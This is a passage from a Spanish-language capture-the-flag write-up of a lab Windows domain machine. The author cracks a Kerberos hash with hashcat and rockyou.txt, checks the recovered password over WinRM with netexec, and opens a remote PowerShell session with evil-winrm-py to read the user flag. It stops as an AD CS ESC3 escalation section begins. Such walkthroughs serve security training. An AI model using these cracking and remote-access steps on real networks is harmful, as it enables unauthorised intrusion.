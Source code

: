 Lanzaremos una herramienta de cracking como `hashcat` o `john` para intentar descifrar el hash usando el diccionario `rockyou.txt`

~~~ bash
hashcat hash.txt /usr/share/wordlists/rockyou.txt -O

$krb5pa$18$Lion.SK$certificate.htb$23f5159fa1c66ed7b0e561543eba6c010cd31f7e4a4377c2925cf306b98ed1e4f3951a50bc083c9bc0f16f0f586181c9d4ceda3fb5e852f0:!QAZ2wsx
~~~

Hemos encontrado la contraseña, si la validamos con la herramienta `netexec`, notaremos que el usuario `lion.sk` puede conectarse al DC vía `winrm`

~~~ bash
nxc winrm DC01.certificate.htb -u 'lion.sk' -p '!QAZ2wsx'

WINRM       10.10.11.71     5985   DC01             [*] Windows 10 / Server 2019 Build 17763 (name:DC01) (domain:certificate.htb)
WINRM       10.10.11.71     5985   DC01             [+] certificate.htb\lion.sk:!QAZ2wsx (Pwn3d!)
~~~


## Shell as `Lion.SK`

Como las credenciales son válidas y el usuario `lion.sk` forma parte del grupo `Remote Management Users`, nos conectaremos a la máquina con una consola de `powershell`

~~~ bash
evil-winrm-py -i DC01.certificate.htb -u 'lion.sk' -p '!QAZ2wsx'
        ▘▜      ▘             
    █▌▌▌▌▐ ▄▖▌▌▌▌▛▌▛▘▛▛▌▄▖▛▌▌▌
    ▙▖▚▘▌▐▖  ▚▚▘▌▌▌▌ ▌▌▌  ▙▌▙▌
                          ▌ ▄▌ v1.1.2
[*] Connecting to DC01.certificate.htb:5985 as lion.sk
evil-winrm-py PS C:\Users\Lion.SK\Documents> whoami
certificate\lion.sk
~~~

Ya podemos ver la flag del usuario sin privilegios

~~~ powershell
evil-winrm-py PS C:\Users\Lion.SK\Documents> type ..\Desktop\user.txt
02f...
~~~
<br>


# Escalada de Privilegios
---
## Abusing AD CS - `ESC3` Technique

El usuario `lion.sk` es miembro del grupo `Domain CRA Managers`, el cual parece ser un **grupo personalizado**. 
